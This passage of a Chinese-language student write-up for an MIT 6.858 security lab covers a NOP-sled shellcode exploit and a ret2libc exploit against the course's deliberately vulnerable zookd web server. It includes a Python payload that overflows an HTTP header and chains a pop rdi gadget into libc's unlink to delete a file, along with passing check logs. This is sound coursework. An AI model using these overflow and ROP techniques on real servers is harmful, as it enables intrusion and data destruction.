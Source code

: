 只要返回地址能够命中4096个nop中的任何一个，就能执行处后面的shellcode（但是这个地址又是去哪看的呢😶‍🌫️

执行检查：

```bash
student@6858-v22:~/lab$ chmod +x ./exploit-4.py 
student@6858-v22:~/lab$ make check-exstack
./check-bin.sh
WARNING: bin.tar.gz might not have been built this year (2023);
WARNING: if 2023 is correct, ask course staff to rebuild bin.tar.gz.
tar xf bin.tar.gz
./check-attack.sh zookd-exstack ./exploit-4.py
PASS ./exploit-4.py
```



#### lab1 exercise5

```bash
./clean-env.sh ./zookd-exstack 8080
```

开了nx，ret2libc。这道题要从```/proc/<pid>/maps```查看libc被加载到哪（其实都已经gdb了，直接`p 某个函数`，再减去`libc.sym['xxx']`得到的也一样

> 在gdb里也可以```shell cat /proc/<pid>/maps```

栈地址和之前是一样的，把字符串放在value上，然后在libc里找`pop rdi; ret`就行了。exp：

```python
stack_buffer = 0x7fffffffda50
stack_retaddr = 0x7fffffffdc88

def build_exploit(shellcode):
    libc_base = 0x1555552e8000
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    unlink = libc_base + libc.sym["unlink"]
    pop_rdi = libc_base + 0x2e6c5 #  pop rdi ; ret

    payload = b"/home/student/grades.txt\x00" 
    payload += b'A' * (stack_retaddr - stack_buffer - len(payload)) 
    payload += p64(pop_rdi) + p64(stack_buffer) + p64(unlink)

    req = b"GET / HTTP/1.0\r\n"
    req += b"hack: "
    payload = payload.replace(b'\x00', b'%00')
    req += payload + b"\r\n" + b"\r\n"
    return req
```

```bash
student@6858-v22:~/lab$ make check-libc
./check-bin.sh
WARNING: bin.tar.gz might not have been built this year (2023);
WARNING: if 2023 is correct, ask course staff to rebuild bin.tar.gz.
tar xf bin.tar.gz
./check-attack.sh zookd-nxstack ./exploit-5.py
PASS ./exploit-5.py
```
